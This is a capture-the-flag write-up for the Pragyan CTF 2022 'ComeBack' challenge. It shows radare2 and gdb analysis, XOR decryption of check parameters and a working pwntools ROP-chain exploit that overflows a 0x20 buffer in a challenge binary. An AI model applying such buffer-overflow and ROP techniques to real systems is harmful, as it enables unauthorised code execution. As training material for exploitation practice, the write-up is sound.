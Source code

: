 # Pragyan CTF 2022: ComeBack
## Write-Up

1) It is a ROP challenge. Inspect the binary using radare2.

``` r2 vuln ``` followed by ```aaaa``` and ```afl``` to analyze the functions.

2) In the new_main function, a buffer of 0x20 is created but the input reads in 0x200, for a possible buffer overflow.

3) Now to find the junk to break into stack, you can use gdb or an extension of gdb called gef to find it.

``` pattern create 60``` followed by ```r``` to run the program and input the buffer created.

In this way, pattern offset can be found.

4) You would notice three functions tryOne, tryTwo, tryThree. These functions are built in libvuln.so. So to find the arguments to be passed to these functions, inspect libvuln.so using radare2.

To find parameters to be passed to tryOne function, ``` pdf @ sym.tryOne``` and you will find the parameters being checked in a cmp.

5) To pass values to function, a gadget must be used. Since three arguments are passed, ```pop esi ; pop edi ; pop ebp ; ret``` should do.
The gadget address can be found using radare2 or using a tool called ROPgadget, ``` ROPgadget --binary vuln --ropchain | grep ": pop esi ; pop edi ; pop ebp ; ret" ```

6) The parameters of the function is checked with the XOR encrypted strings but the parameters are taken in int datatype which hints that the parameters might be hex. The __encrypt() function is called in strcmp() function. Now to get the decrypted function parameters, we can run

```
def encryptDecrypt(inpString):
    xorKey = "3T5*)Z'0B6";
    length = len(inpString);

    for i in range(length):
     
        inpString = (inpString[:i] +
             chr(ord(inpString[i]) ^ ord(xorKey[i])) +
                     inpString[i + 1:]);
        print(inpString[i], end = "");
     
    return inpString;
 

if __name__ == '__main__':
    encryptedArg = ""; # Input the encrypted argument
 
    # Encrypt the string
    print("Parameter: ", end = "");
    encryptedArg = encryptDecrypt(encryptedArg);
```

XORkey can be found in radare2 by disassembling the function __encrypt() using ```pdf @ sym.__encrypt``` and address where XOR key is stored can be found. Run the above script for 3 different variables to get the parameters. These are variables in the global scope of libvuln.so file. The parameters' offset can be found in disassembly of each tryOne, tryTwo and tryThree and their addresses. The varaiables' name can be determined in gdb using command ```info variables``` and its address. The variable names are check_p1, check_p2, check_p3.  

Run the command ```objdump -d -s -j .data ./libvuln.so```
output :-
```
./libvuln.so:     file format elf32-i386

Contents of section .data:
 403c 3c400000 032c514f 483e4555 27500000  <@...,QOH>EU'P..
 404c 032c531a 193e4451 24530000 032c511a  .,S..>DQ$S...,Q.
 405c 193e4151 215300                      .>AQ!S.         

Disassembly of section .data:

0000403c <__dso_handle>:
    403c:	3c 40 00 00                                         <@..

00004040 <check_p1>:
    4040:	03 2c 51 4f 48 3e 45 55 27 50 00 00                 .,QOH>EU'P..

0000404c <check_p2>:
    404c:	03 2c 53 1a 19 3e 44 51 24 53 00 00                 .,S..>DQ$S..

00004058 <check_p3>:
    4058:	03 2c 51 1a 19 3e 41 51 21 53 00                    .,Q..>AQ!S.
```

7) In order for eip to perform the instructions we want, fill up the buffer and the values in the register before saved eip in the stack with a payload buffer. Lets find out the buffer value required.  

![Start gdb](./images/i1.png?raw=true)

Hitting break point set at new_main function- 

![Break at new_main](./images/i2.png?raw=true)

Provide an input of ```python3 -c 'print("A"*100)'``` as buffer. Checking registers upto where our buffer input is stored completely in a register.

![Check esp](./images/i3.png?raw=true)

Look at the esp address(which is also the esp address at the start) after leave instruction and find the offset by ```0xffffd1ac-0xffffd178```.
It will be 0x34 whose decimal value is 52.

![Find offset](./images/i4.png?raw=true)

8) Now a chain can be build. Exploit :-

```
from pwn import *

import struct

binary = context.binary = ELF('./vuln')
gadget = struct.pack("I", 0x080493d1) # pop esi ; pop edi ; pop ebp ; ret
buf  = b"A" * 52
buf += gadget
buf += struct.pack("I", 0xdeadbeef)
buf += struct.pack("I", 0xf00dcafe)
buf += struct.pack("I", 0xd00dface)
buf += p32(binary.sym.tryOne-4) # tryOne()
buf += gadget
buf += struct.pack("I", 0xdeadbeef)
buf += struct.pack("I", 0xf00dcafe)
buf += struct.pack("I", 0xd00dface)
buf += p32(binary.sym.tryTwo-4) # tryTwo()
buf += gadget
buf += struct.pack("I", 0xf00dcafe)
buf += struct.pack("I", 0xd00dface)
buf += struct.pack("I", 0xdeadbeef)
buf += p32(binary.sym.tryThree-4) # tryThree()
buf += gadget
buf += struct.pack("I", 0xd00dface)
buf += struct.pack("I", 0xdeadbeef)
buf += struct.pack("I", 0xf00dcafe)

with open('exp', 'wb') as exp:
    exp.write(buf)
```
8) Running ``` ./vuln < exp ```, will print out the flag.

